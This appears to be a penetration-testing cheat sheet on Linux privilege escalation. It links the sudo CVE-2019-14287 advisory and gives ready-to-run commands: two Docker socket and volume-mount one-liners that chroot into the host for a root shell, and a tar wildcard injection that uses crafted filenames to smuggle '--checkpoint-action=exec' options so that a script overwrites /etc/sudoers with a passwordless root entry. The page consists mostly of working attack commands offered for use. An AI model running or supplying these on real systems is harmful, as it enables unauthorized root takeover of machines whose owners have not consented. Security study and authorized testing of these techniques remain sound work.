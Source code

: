 # Interesting Findings

## Sudo CVE

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>sudo <a href="https://access.redhat.com/security/cve/cve-2019-14287">CVE-2019-14287</a></p></figcaption></figure>

Read more: [https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/](https://www.mend.io/blog/new-vulnerability-in-sudo-cve-2019-14287/)

## Docker

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```

Docker shell bypass and privesc to root

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

## Tar Wildcard

```bash
# 1. Create files in the current directory called
# '--checkpoint=1' and '--checkpoint-action=exec=sh privesc.sh'

echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'

# 2. Create a privesc.sh bash script, that allows for privilege escalation
#malicous.sh:
echo 'kali ALL=(root) NOPASSWD: ALL' > /etc/sudoers

#The above injects an entry into the /etc/sudoers file that allows the 'kali' 
#user to use sudo without a password for all commands
#NOTE: we could have also used a reverse shell, this would work the same!
#OR: Even more creative, you could've used chmod to changes the permissions
#on a binary to have SUID permissions, and PE that way
```

